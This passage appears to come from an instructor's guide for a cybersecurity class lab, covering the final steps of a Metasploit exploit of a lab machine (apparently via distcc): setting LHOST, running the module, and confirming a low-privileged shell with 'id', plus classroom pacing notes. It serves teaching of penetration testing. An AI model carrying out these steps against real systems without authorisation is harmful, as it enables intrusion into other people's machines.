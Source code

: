    - `set LHOST 172.22.117.100`

   ![A screenshot depicts the results of the `options` command.](images/payloadoptions.PNG)

6. Run the module.

   - `exploit` OR `run`

   ![A screenshot depicts the results of the command.](images/distcc.PNG)

7. Check your current user via `id`.

   - `id`

   - Point out that we were able to obtain a low-privileged shell with an exploit.

   - Have students leave the current window and Metasploit session open, as they will use it in the next activity.

Pause to make sure all students have been able to get this shell before continuing.
